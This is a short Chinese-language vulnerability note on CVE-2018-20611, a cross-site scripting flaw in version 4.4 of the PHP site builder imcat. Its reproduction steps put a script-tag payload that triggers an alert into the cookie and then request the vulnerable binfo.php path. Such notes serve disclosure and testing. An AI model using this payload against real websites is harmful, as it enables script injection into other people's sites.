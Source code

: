 （CVE-2018-20611）Imcat 4.4 xss
===============================

一、漏洞简介
------------

imcat是一套基于PHP的开源建站系统。 imcat
4.4版本存在跨站脚本漏洞。远程攻击者可通过向root/tools/adbug/binfo.php?cookie
URI发送特制的cookie利用该漏洞注入任意的Web脚本或HTML。

二、漏洞影响
------------

imcat 4.4

三、复现过程
------------

将cookie的值修改成

    "><script>alert(1)</script>

![](resource/(CVE-2018-20611)Imcat4.4xss/media/rId24.png)

然后访问

    http://www.0-sec.org/root/tools/adbug/binfo.php?cookie`

![](resource/(CVE-2018-20611)Imcat4.4xss/media/rId25.png)

参考链接
--------

> <https://github.com/AvaterXXX/CVEs/blob/master/imcat.md>
